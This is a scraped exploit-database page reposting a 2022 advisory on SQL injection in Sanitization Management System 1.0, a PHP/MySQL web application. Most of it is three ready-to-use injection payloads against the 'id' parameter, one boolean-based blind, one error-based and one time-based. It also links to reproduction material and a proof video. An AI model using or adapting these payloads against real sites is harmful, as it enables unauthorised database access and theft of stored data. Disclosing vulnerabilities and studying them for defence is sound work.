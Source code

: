 ```yaml
---
title: Sanitization Management System 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170013&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-11-26
fetch_date: 2025-10-03T23:48:32.704040
---
```


# Sanitization Management System 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Sanitization Management System 1.0 SQL Injection

2022-11-25 | CVSS 0.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170013
## Title: SMS - PHP (by: oretnom23 ) v1.0 SQLi
## Author: nu11secur1ty
## Date: 11.25.2022
## Vendor: https://github.com/oretnom23,
https://www.sourcecodester.com/users/tips23
## Software: https://www.sourcecodester.com/download-code?nid=15770&title=Sanitization+Management+System+Project+in+PHP+and+MySQL+Free+Source+Code
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2022/Sanitization-Management-System-1.0

## Description:
The `id` parameter appears to be vulnerable to SQL injection attacks.
The attacker can get all information from this system by using this
vulnerability.

## STATUS: HIGH Vulnerability - CRITICAL

[+] Payload:

```MySQL
Parameter: id (GET)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
Payload: p=services/view_service&id=126664801' or '5968'='5975' OR
NOT 5461=5461 AND 'gEud'='gEud

Type: error-based
Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
Payload: p=services/view_service&id=126664801' or '5968'='5975' OR
(SELECT 5753 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT
(ELT(5753=5753,1))),0x71767a7071,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'DEYy'='DEYy

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: p=services/view_service&id=126664801' or '5968'='5975'
AND (SELECT 6369 FROM (SELECT(SLEEP(5)))Rnfu) AND 'PUfi'='PUfi

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2022/Sanitization-Management-System-1.0)

## Proof and Exploit:
[href](https://streamable.com/rnfvjf)

## Time spent
`00:30:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)